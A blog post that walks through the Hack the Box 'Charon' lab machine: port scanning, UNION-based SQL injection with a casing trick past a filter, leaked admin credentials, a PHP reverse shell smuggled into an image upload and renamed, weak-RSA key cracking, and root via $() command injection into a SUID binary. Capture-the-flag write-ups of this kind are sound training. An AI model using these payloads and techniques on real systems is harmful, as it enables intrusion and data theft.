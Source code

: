 ```yaml
---
layout: post
title:  "Hack the Box - Charon"
date:   2015-11-17 16:16:01 -0600
categories: hackthebox sqli html escape hacking writeup
---
```


<img class="header-img" src="{{ "img/charon/home.png" | relative_url }}" />

The first step, as (almost) always, is to enumerate any open ports on the machine.

{% highlight shell %}
~ » nmap 10.10.10.31 -sS -A
Nmap scan report for 10.10.10.31
Host is up (0.022s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; p
| ssh-hostkey:
|   2048 09:c7:fb:a2:4b:53:1a:7a:f3:30:5e:b8:6e:ec:83:ee (RSA)
|   256 97:e0:ba:96:17:d4:a1:bb:32:24:f4:e5:15:b4:8a:ec (ECDSA)
|_  256 e8:9e:0b:1c:e7:2d:b6:c9:68:46:7c:b3:32:ea:e9:ef (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Frozen Yogurt Shop
Warning: OSScan results may be unreliable because we could not find a
Device type: general purpose
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/
Aggressive OS guesses: Linux 3.11 - 4.1 (91%), Linux 3.2.0 (90%), Lin%), Linux 3.10 - 4.8 (85%), Linux 3.2 - 4.8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   22.54 ms 10.10.14.1
2   22.95 ms 10.10.10.31

OS and Service detection performed. Please report any incorrect resul
Nmap done: 1 IP address (1 host up) scanned in 20.81 seconds
{% endhighlight %}

Only 22 and 80 are open, so let's continue to enumerate and see what we can find on port 80. It appears to be a page for the "Freeeze" frozen yogurt shop. Everything is static except for the blog posts, which have URLs of the form: `http://charon.htb/singlepost.php?id=10`. Simple manual testing indicates that this is vulnerable -
{% highlight shell %}
http://charon.htb/singlepost.php?id=0%20union%20select%201,1,1,1,1
{% endhighlight %}
so let's put sqlmap on the case, and keep moving forward:
{% highlight shell %}
~ » sqlmap -u "http://charon.htb/singlepost.php?id=10" --level=5 --risk=3 --technique=U
{% endhighlight %}
(Bizarely, sqlmap fails on this simple injection. In any case, this database isn't useful to us.)

Moving onwards, what should stick out to you is that the footer indicates this site is powered by "SuperCMS." That means we should definitely start looking for the login portal for "SuperCMS." This doesn't appear to be an actual CMS system, so we'll have to fall back to dirbuster to enumerate. I used the default wordlist `directory-list-2.3-medium.txt` which pretty quickly hits `/cmsdata/login.php`.

This leads us to a login page that appears not to be vulnerable to SQL injection, and a "Forgot Password" page that looks like it might be. The reasoning here is that the Login page returns the same error messages no matter what is passed, and has no decernable blind SQLi vulnerabilities. Meanwhile, the forgot password page gives at least 2 different types of errors:
```
' -> Incorrect format
x@x.c -> User not found with that email!
```

A handy tricky for running / debugging sqlmap is to run it through Burpsuite:
{% highlight shell %}
~ » sqlmap -u "http://charon.htb/cmsdata/forgot.php" --data="email=x@x.c"  --level=5 --risk=3 --proxy=http://localhost:8080
{% endhighlight %}
sqlmap comes back with a potential blind SQLi vulnerability:
{% highlight shell %}
[...]
sqlmap identified the following injection point(s) with a total of 1122 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=x@x.c' RLIKE (SELECT (CASE WHEN (3782=3782) THEN 0x7840782e63 ELSE 0x28 END))-- DcMQ
---
[14:26:33] [INFO] the back-end DBMS is MySQL
[...]
{% endhighlight %}
but something that sticks out right away are the responses for UNION based injections:
<img src="{{ "img/charon/burp.png" | relative_url }}" />

Their response size and error message were drastically different than the rest, so let's take a closer look.

Working our way down the  <a href="https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF">WAF Bypassing Strings list</a>, we quickly find that changing the casing on `UNION` gets us past the error. Using the limitations that we know of (the queryset must return an email), and expanding the union count, we hit the jackpot on:
`' UnION SELECT 'x@x.c', 'x@x.c', 'x@x.c', 'x@x.c`
<img src="{{ "img/charon/bingo.png" | relative_url }}" />

The next step is to subsitute different values for `x@x.c` to see what gets echoed back to us and what has to be an email. After a short period, we quickly find this:
`' UnION SELECT '', (payload), '', 'x@x.c`.
From there we either manually query the database, or use our favorite tool, but we can quickly get the list of users and passwords (there are some other tricky aspects to this SQLi like dummy data, orderings, etc., but I'll leave that to the reader as an exercise):
`super_cms_adm / tamarro`

After logging in, there a few possible vulnerabilities: we can edit existing pages, create new pages, and upload images. Let's take a look at the image upload first. After doing a few probing tests, it's discovered that there is both client and server-side checks to make sure we're uploading an actual image, and that the extension is that of an image. Right when we're about to call this a dead end, we inspect the HTML source and see something funny:
{% highlight html %}
<form action="upload.php" method="POST" onsubmit="javascript:return ValidateImage(this);" name="frm" enctype="multipart/form-data">
<input type="file" name="image" />
<!-- <input type=hidden name="dGVzdGZpbGUx"> -->
<input type="submit"/>
</form>
{% endhighlight %}

`dGVzdGZpbGUx` looks a lot like base64, and when we decode it, we get `testfile1`, so clearly this is a tool for testing the upload. What happens when we decode it, give it a value, and try to upload something (I took a Blank.png file and inserted a reverse PHP shell into the middle of it to bypass the image restrictions):
<img src="{{ "img/charon/burp2.png" | relative_url }}" />

It renames the file for us! This lets us rename our "image" to a `.php` file and the web server will execute it as PHP and give us a reverse shell.

Once on the box, we quickly `cd` to `/home/decoder` and find a public key and encrypted password.
{% highlight shell %}
$ cat decoder.pub
-----BEGIN PUBLIC KEY-----
MDwwDQYJKoZIhvcNAQEBBQADKwAwKAIhALxHhYGPVMYmx3vzJbPPAEa10NETXrV3
mI9wJizmFJhrAgMBAAE=
-----END PUBLIC KEY-----
{% endhighlight %}

This is an extremely short key, and is trivially breakable (via something like <a href="https://github.com/Ganapati/RsaCtfTool">RsaCtfTool</a>). Once we break it and get the private key, we can decrypt `pass.crypt` which gives us the ssh password for decoder.

Now we can SSH in as decoder, `cat user.txt` and begin to think about priv esc. One of my first steps during priv esc is always `sudo -l` and to look for SUID/SGID binaries:
{% highlight shell %}
$ find / -perm -u=s -type f 2>/dev/null
/usr/local/bin/supershell
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/newuidmap
/bin/ntfs-3g
/bin/ping6
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
{% endhighlight %}

`supershell` is obviously very suspect here, and is our most likely route to root. Let's try to figure out how this works:
{% highlight shell %}
$ supershell
Supershell (very beta)
usage: supershell <cmd>
$ supershell cat /root/root.txt
Supershell (very beta)
usage: supershell <cmd>
$ ltrace supershell
__libc_start_main(0x40082f, 1, 0x7fff323b28d8, 0x400940 <unfinished ...>
puts("Supershell (very beta)"Supershell (very beta)
)                                     = 23
puts("usage: supershell <cmd>"usage: supershell <cmd>
)                                    = 24
exit(1 <no return ...>
+++ exited (status 1) +++
$ ltrace supershell "ls ."
__libc_start_main(0x40082f, 2, 0x7ffc3bb1aa88, 0x400940 <unfinished ...>
puts("Supershell (very beta)"Supershell (very beta)
)                                     = 23
strncpy(0x7ffc3bb1a890, "ls ,", 255)                               = 0x7ffc3bb1a890
strcspn("ls ,", "|`&><'"\\[]{};#")                                 = 4
strlen("ls ,")                                                     = 4
strncmp("ls ,", "/bin/ls", 7)                                      = 61
+++ exited (status 0) +++
{% endhighlight %}

So, it's making sure we're _only_ running `/bin/ls` and that our input doesn't contain any of `` |&><'"\\[]{};#\` ``. To get around this requires a little bash knowledge, and a little creativity. First, it's pretty obviously missing a 3 big characters from it's blacklist: `$()`. This lets us execute a command _before_ `ls` runs. After doing a few local tests, it seems `ls` outputs the full file contents of a file if you try to list it:

{% highlight shell %}
~ » echo "givemeroot" > test_file
~ » ls "$(cat test_file)"
ls: cannot access 'givemeroot': No such file or directory
{% endhighlight %}

From there, it's simple:

{% highlight shell %}
$ supershell "/bin/ls \$(cat /root/root.txt)"
/bin/ls: cannot access 'REDACTED': No such file or directory
{% endhighlight %}